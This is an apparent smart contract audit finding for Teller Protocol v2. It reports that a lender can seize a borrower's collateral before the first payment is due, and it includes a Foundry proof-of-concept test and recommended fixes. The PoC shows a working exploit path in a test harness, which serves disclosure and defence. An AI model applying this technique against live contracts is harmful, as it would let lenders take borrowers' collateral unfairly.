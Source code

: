 dacian

high

# Lender can take borrower's collateral before first payment due

## Summary
For PaymentCycleType.Seconds if PaymentDefault < PaymentCycle, Lender can take Borrower's collateral before first payment is due. If PaymentDefault > 0 but very small, Lender can do this almost immediately after accepting borrower's bid. This is especially bad as the Market Operator who controls these parameters can also be the Lender.

## Vulnerability Detail
Lender calls CollateralManager.withdraw() [L254](https://github.com/teller-protocol/teller-protocol-v2/blob/cb66c9e348cdf1fd6d9b0416a49d663f5b6a693c/packages/contracts/contracts/CollateralManager.sol#L254), which calls TellerV2.isLoanDefaulted() [L930](https://github.com/teller-protocol/teller-protocol-v2/blob/cb66c9e348cdf1fd6d9b0416a49d663f5b6a693c/packages/contracts/contracts/TellerV2.sol#L930), which bypasses the 1 day grace period & doesn't take into account when first payment is due.

## Impact
Borrower loses their collateral before they can even make their first repayment, almost instantly if PaymentDefault > 0 but very small.

## Code Snippet
Put this test in TellerV2_Test.sol:
```solidity
function test_LenderQuicklyTakesCollateral() public {
	MarketRegistry mReg = (MarketRegistry)(payable(address(tellerV2.marketRegistry())));

	// payment cycle 3600 seconds, payment default 1 second
	// payment will be in default almost immediately upon being
	// accepted, even though the first payment is not due for much longer
	// than the default time
	uint32 PAYMENT_CYCLE_SEC   = 3600;
	uint32 PAYMENT_DEFAULT_SEC = 1;

	vm.startPrank(address(marketOwner));
	mReg.setPaymentCycle(marketId1, PaymentCycleType.Seconds, PAYMENT_CYCLE_SEC);
	mReg.setPaymentDefaultDuration(marketId1, PAYMENT_DEFAULT_SEC);
	vm.stopPrank();

	//Submit bid as borrower
	uint256 bidId = submitCollateralBid();
	// Accept bid as lender
	acceptBid(bidId);

	// almost immediately take the collateral as the lender, even though
	// the first payment wasn't due for much later
	ICollateralManager cMgr = tellerV2.collateralManager();
	skip(PAYMENT_DEFAULT_SEC+1);
	cMgr.withdraw(bidId);
	// try again to verify the collateral has been taken
	vm.expectRevert("No collateral balance for asset");
	cMgr.withdraw(bidId);
}
``` 

## Tool used
Manual Review

## Recommendation
Change the calculations done as a consequence of calling TellerV2.isLoanDefaulted() to take into account when first payment is due; see similar code which does this TellerV2.calculateNextDueDate() [L886-L899](https://github.com/teller-protocol/teller-protocol-v2/blob/cb66c9e348cdf1fd6d9b0416a49d663f5b6a693c/packages/contracts/contracts/TellerV2.sol#L886-L899). Lender should only be able to take Borrower's collateral after the Borrower has missed their first payment deadline by PaymentDefault seconds.

Consider enforcing sensible minimums for PaymentDefault. If PaymentDefault = 0 no liquidations will ever be possible as TellerV2._canLiquidateLoan() [L963](https://github.com/teller-protocol/teller-protocol-v2/blob/cb66c9e348cdf1fd6d9b0416a49d663f5b6a693c/packages/contracts/contracts/TellerV2.sol#L963) will always return false, so perhaps it shouldn't be possible to set PaymentDefault = 0.


 
